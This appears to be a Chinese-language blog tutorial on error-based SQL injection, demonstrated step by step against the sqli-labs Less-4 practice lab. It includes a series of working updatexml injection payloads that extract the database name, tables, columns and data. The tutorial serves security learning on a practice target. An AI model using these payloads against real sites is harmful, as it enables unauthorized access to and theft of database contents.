 ```yaml
---
title: 极易上手的报错注入
tags: 
  - SQL注入
  - 报错注入
  - updatexml
  - 靶场演示
categories: web安全
keywords: 'SQL注入,报错注入,易上手,updatexml,靶场演示'
description: 极易上手的报错注入
cover: https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fimg2018.cnblogs.com%2Fblog%2F1579399%2F201907%2F1579399-20190717003510359-570355042.png&refer=http%3A%2F%2Fimg2018.cnblogs.com&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1630916535&t=757f4c39d3a5884249a1291b70cde3b7
date: 2020-05-01 16:37:02
---
```


报错注入：报错注入的意思是用户通过执行一些语句让数据库报出了致命性错误，只需要在里面放入sql子查询语句，就可以得到对应的信息。

文章开头，先学习一下中华人民共和国网络安全法：	
https://www.cto.ac.cn/thread-106.htm

![upload successful](/images/pasted-20.png)

![upload successful](/images/pasted-21.png)

![upload successful](/images/pasted-22.png)

## 漏洞简介
在这里先简单介绍一下漏洞之王SQL注入：
SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息。
作为OWASP榜首的漏洞，SQL注入一直是网络上占比重最大的漏洞，而要实现这一漏洞，需要有两个关键条件：

1.	用户可以控制输入。
2.	用户输入的数据被当作代码拼接到了数据库语句当中。


## 报错注入具体流程
1.先打开靶场，靶场我选择sqli-labs的less4，这里我顺手传参了id=1
![upload successful](/images/pasted-23.png)

2.每次看到这种id=的get传参的时候，总是喜欢加个'，这次看到，这里没有效果了，页面还是正常的。
![upload successful](/images/pasted-24.png)

3.那现在怎么办呢，单引号不行，那试试双引号吧
```
?id=1"
```
运气不错，页面报错了，这里作为黑盒测试的话，一看到报错了是最开心的，当然一般还要试试 **?id=1')** 和 **?id=1")**
![upload successful](/images/pasted-25.png)

4.这里还是看看源码来分析吧。
![upload successful](/images/pasted-26.png)
这里明显看到，原来id外面先拼接了""	
语句为：
```
$id = '"' . $id . '"';	
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```
那对于我们传入的数据来说，放入到数据库里面执行的语句就是：
```
$sql="SELECT * FROM users WHERE id=(" $id") LIMIT 0,1";
```

5.也就是说，在传参的时候，我们传入的数据外面有一层双引号之外，还有一层括号，那么闭合的方法就是将之间的单引号换成双引号加括号 后面再加上#注释（也可以通过--+来注释），可以看到页面返回正常，这里的传参是：
```
?id=1") --+
```
![upload successful](/images/pasted-27.png)

6.这里已经成功闭合了，那么就开始我们的报错注入吧，在")和--+中间放入我事先准备好的数据库报错查询语句，成功查询到数据库库名security，传参为：
```
?id=1") and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+
```
![upload successful](/images/pasted-28.png)

7.既然已经查询到了数据库库名，那么查到数据库里面的数据也就不远了。将报错注入的函数里面的select database()换成查询系统自带库information_schema中的表的语句。
传参为：
```
?id=1") and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1) --+
```
![upload successful](/images/pasted-29.png)

8.查询出来一个emails表，感觉没有想要的信息，不想查询它的数据了，更改一下limit 0,1 为limit 1,1 获得另一张表referers。
![upload successful](/images/pasted-30.png)

9.有表名了，那么接下来就是查询referers表中的字段。这里学习一个新的函数，**group_concat()** ，这个函数会将group by产生的同一个分组中的值连接起来，返回一个字符串结果。什么意思呢，就是我们使用这个函数，可以不需要limit 0，1 ， limit 1，1这样轮询得到所有的数据，一个函数搞定。
传参为：
```
?id=1") and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='referers' limit 0,1),0x7e),1) --+
```
得到了这个表中的三个字段为id,referer和ip_address
![upload successful](/images/pasted-31.png)

10.有了表名和字段名，接下来就是查询数据了，通过查询referers表中的referer字段为例，获取数据库信息。传参为: 
```
?id=1") and updatexml(1,concat(0x7e,(select group_concat(referer) from referers),0x7e),1) --+
```

![upload successful](/images/pasted-32.png)
这里就获取了里面我随意插入的3个数据admin1，admin2，admin3

## 总结

这里就是报错注入的整个流程了，报错注入在sql注入中占比还是比较大的，还有很多bypass技巧，大家可以自行学习一下。

